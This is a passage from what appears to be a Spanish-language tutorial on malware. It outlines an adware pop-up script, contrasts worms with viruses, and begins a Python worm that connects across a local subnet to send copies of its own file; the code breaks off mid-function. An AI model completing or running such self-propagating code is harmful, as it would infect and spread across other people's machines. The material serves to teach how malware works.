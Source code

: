 **Paso a paso**
- Lista de anuncios: Se crea una lista que contiene varios textos de anuncios que se mostrarán ed forma aleatoria.
- Función para mostrar un anuncio: Crea una ventana emergente, configura el tamaño y posición de forma aleatoria, el anuncio se elige aleatoriamente de la lista de anuncios anteriormente creada y se muestra en la ventana, se incluye un botón que permite cerrarlo y la ventana se mantiene activa hasta que el usuario la cierre.
- Función principal para ejecutar el adware: La ultima función ejecuta un bucle infinito que muestra anuncios continuamente, en cada iteración del bucle se espera entre 5 y 15 segundos para mostrar un nuevo anuncio. El código permite multiples ventanas emergentes al ejecutar anuncios en hilos separados.

### Gusanos

#### ¿Cómo se diferencian de los virus?

Los gusanos y los virus se parecen mucho, ambos se propagan, pero tienen diferencias clave en su funcionamiento.

1. **La autonomía**:
   1. Los virus necesitan un archivo huésped para propagarse.
   2. Los gusanos son autónomos y se replican y propagan sin necesidad de un archivo huésped.
2. **Modo de propagación**:
   1. Los virus suelen activarse cuando el usuario interactúa con el propio archivo infectado.
   2. Los gusanos se propagan automáticamente.
3. **Objetivo principal**:
   1. Los virus tienden a infectar archivos o sistemas específicos
   2. Los gusanos priorizan la propagación masiva

Los gusanos son especialmente peligrosos pues **pueden extenderse a través de redes** con poca o ninguna interacción del usuario, **infectan dispositivos USB**, **impresoras de red**, **dispositivos IoT**[^fn-nth-3], **envían mensajes automáticamente** con enlaces o archivos infectados...

#### Ejemplo práctico




> **Nota importante:** Me gustaría recordar que esto es solo educativo y no debe de usarse de forma maliciosa.
{: .prompt-warning }




```Python
import socket
import os
import shutil
import time

# Configuración de IP de la red local (especifica la subred)
RANGO_IPS = ["192.168.1.1", "192.168.1.255"]  # Cambia según tu red local
PUERTO = 9999  # Puerto utilizado para la propagación

# Ruta donde se guardará la copia del gusano
archivo_gusano = "worm.py"

# Función para intentar enviar el gusano a otra computadora
def enviar_gusano(ip_destino):
    try:
        # Crear un socket para conectar con la IP de destino
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(5)
        s.connect((ip_destino, PUERTO))

        # Enviar el gusano (el código mismo como string)
        with open(archivo_gusano, "r") as f:
            contenido = f.read()
```

[^footnote]: El Zero Day o Ataque de día cero, es un ataque contra una aplicación o un sistema que tiene como objetivo la ejecución de código malicioso mediante vulnerabilidades desconocidas para los usuarios y el fabricante del producto.
[^fn-nth-2]: Es un ataque distribuido que tiene como objetivo desactivar y derribar recursos en linea sobrecargandolo con solicitudes de conexión, paquetes falsos y otro tráfico malicioso.
[^fn-nth-3]: Un dispositivo IoT  es un equipo conectado a internet. Por ejemplo, termostato inteligente, cámaraa de seguridad o asistente virtual.
[^fn-nth-4]: Es la parte central de un sistema operativo que gestiona el hardware y permite que los programas interactúen con él.
[^fn-nth-5]: Software básico que inicia el hardware del computador y carga el sistema operativo. UEFI es la versión más moderna y segura que reemplaza al BIOS tradicional.
[^fn-nth-6]:  Protocolo usado para comunicación en tiempo real mediante texto, común en comunidades y canales de chat.
[^fn-nth-7]: Protocolo estándar para transferir datos en la web, como cargar páginas o enviar formularios.
[^fn-nth-8]:  Modelo de red donde los dispositivos se conectan directamente entre sí para compartir recursos sin intermediarios.
[^fn-nth-9]: Sistema que filtra y controla el tráfico de red para proteger dispositivos o redes de accesos no autorizados.
[^fn-nth-10]: Herramienta que detecta y bloquea automáticamente actividades maliciosas en la red.
[^fn-nth-11]: Plataforma que recopila, analiza y correlaciona datos de seguridad para identificar y responder a amenazas.